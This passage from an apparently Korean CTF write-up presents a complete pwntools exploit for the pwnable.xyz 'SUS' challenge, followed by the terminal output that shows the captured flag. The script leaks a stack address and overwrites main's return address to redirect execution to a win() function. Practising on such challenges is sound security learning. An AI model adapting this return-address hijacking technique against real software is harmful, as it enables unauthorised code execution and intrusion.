 
최종 익스플로잇은 다음과 같다.

```python
# exploit_SUS.py

from pwn import *

# r = process("./SUS")
r = remote("svc.pwnable.xyz", 30011)

addr_win = 0x400b71 # address of win()
addr_cur = 0x602268 # address of variable 'cur'
ret = 0x4006fe # address of "ret" gadget

def cr(name, age):
    r.recvuntil("> ")
    r.send("1")
    r.recvuntil("Name: ")
    r.send(name)
    r.recvuntil("Age: ")
    r.send(age)

def pr():
    r.recvuntil("> ")
    r.send("2")

def ed(name, age):
    r.recvuntil("> ")
    r.send("3")
    r.recvuntil("Name: ")
    r.send(name)
    r.recvuntil("Age: ")
    r.send(age)

def ex():
    r.recvuntil("> ")
    r.send("0")

cr("ChyKor12", "21")
ed("ChyKor12", "A" * 0x10 + p64(addr_cur))

pr()
r.recvuntil("User: ")
stack = u64(r.recv(6).ljust(8, "\x00")) # address of stack memory (where address of chunk was on)
main_ret = stack + 0x1088 # address where return address of main() is on
log.info("return address of main() is on " + hex(main_ret))

ed(p64(stack), "A" * 0x10 + p64(main_ret))
ed(p64(ret) + p64(addr_win), "21")

ex()

r.interactive()
```

```bash
chykor12@ubuntu:~/pwnable.xyz$ python exploit_SUS.py
[+] Opening connection to svc.pwnable.xyz on port 30011: Done
[*] return address of main() is on 0x7ffe8519be68
[*] Switching to interactive mode
FLAG{uninitializ3d_variabl3_ch3ck3d}[*] Got EOF while reading in interactive
$
```

